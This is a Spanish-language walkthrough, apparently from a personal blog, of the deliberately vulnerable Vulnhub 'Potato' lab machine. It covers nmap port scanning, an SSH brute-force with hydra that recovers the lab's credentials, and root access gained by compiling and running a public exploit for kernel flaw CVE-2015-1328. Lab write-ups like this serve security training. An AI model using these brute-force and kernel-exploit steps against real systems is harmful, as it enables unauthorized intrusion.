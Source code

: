 ```yaml
---
title: Vulnhub - Potato
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, Vulnhub, Easy]
tags: [Linux, 'Brute Force', 'Kernel Exploitation (CVE-2015-1328)']
math: true
mermaid: true
image:
  path: /assets/images/Vulnhub/Easy/Potato/logo.jpg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Potato Machine Logo
---
```


Máquina Linux de nivel **Easy** de Vulnhub.

Técnicas usadas: **Brute Force, Kernel Exploitation (CVE-2015-1328)**


### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/Vulnhub/Easy/Potato/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos**

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

    ![](/assets/images/Vulnhub/Easy/Potato/02-versions.png)

c. Después de hacer fuzzing por directorios, fichero **.php, zip, php.bak, .conf**, únicamente encontramos **info.php** el cual no tiene información que nos permita acceder a la **`Máquina Víctima`**, por lo que el último recurso es realizar fuerza bruta sobre el servicio SSH y con la pista que nos dan:

```bash
Hint: "If you ever get stuck, try again with the name of the lab"
```

* Es decir, usaremos hydra con el usuario **potato** (Nombre del Laboratorio) y usaremos el diccionario rockyou.txt

    ```bash
    root@kali> hydra -l potato -P /usr/share/wordlists/rockyou.txt ssh://<IP>:7120 -t 4

    [7120][ssh] host: 192.168.100.23   login: potato   password: letmein
    ```

    * **`:7120`** Puerto del servicio SSH en la máquina.
    * **`-t 4`** Realizamos 4 peticiones en paralelo, ya que, si hacemos más de 4 tendremos conflictos con este servicio.

d. Nos autenticamos en el servicio SSH con las credenciales **potato:letmein**

```bash
root@kali> ssh potato@192.168.100.23 -p 7120
```

### Escalada de Privilegios 💹

a. La versión del kernel es antigua

```bash
potato@ubuntu:~$ uname -a
Linux ubuntu 3.13.0-24-generic
```

* Al buscar por vulnerabilidades llegamos a [exploit](https://www.exploit-db.com/exploits/37292)

b. Guardamos el exploit en un archivo para luego compilarlo

```bash
potato@ubuntu:~$ gcc backup.c -o backup
potato@ubuntu:~$ chmod +x backup
potato@ubuntu:~$ ./backup

# bash
root@ubuntu:/home/potato# cd /root
root@ubuntu:/root# cat proof.txt 
SunCSR.Team.Potato.af6d45da1f1181347b9e2139f23c6a5b
```
